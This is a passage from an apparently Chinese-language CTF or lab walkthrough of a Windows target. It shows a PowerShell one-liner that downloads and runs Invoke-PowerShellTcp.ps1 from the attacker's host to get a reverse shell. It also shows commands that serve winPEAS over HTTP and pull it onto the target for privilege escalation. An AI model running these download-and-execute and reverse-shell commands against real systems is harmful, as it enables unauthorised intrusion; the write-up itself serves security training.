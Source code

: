 在木马中执行如下命令

```
cmd=powershell -c iex(new-object net.webclient).downloadstring('http://10.10.16.3/Invoke-PowerShellTcp.ps1')
```

成功反弹shell

![截图](9b24bbd5a3fa4c861658b6797f849bbf.png)

# 权限提升

当前的权限是不足的，我们使用winpeasany看能不能提权。先准备好winpeasany.exe，自行谷歌下载即可。然后获取资源到靶机上。准备好winpeas，使用python启动本地端口，然后让防火墙允许本地端口。

```
python3 -m http.server 8083
```

在靶机上执行

```
iwr -uri 'http://10.10.16.3:8083/winPEASany.exe' -outfile 'winpeas.exe'
```

> iwr是使用 PowerShell 下载一个文件的命令。具体来说，它使用 Invoke-WebRequest（缩写为 iwr）从指定的 URL 下载一个文件并将其保存到本地。
> 
> Invoke-WebRequest 是 PowerShell 中一个强大的 cmdlet，用于发出 HTTP 和 HTTPS 请求，并接收响应。这使得它非常适合在 PowerShell 脚本中进行 Web 操作，比如下载文件、与 REST API 交互、提交表单等。

![截图](eab35f29178557f91d9b02ac4f5b6604.png)

![截图](f48b1c8eeecfa38d77c76a3869fcc26b.png)
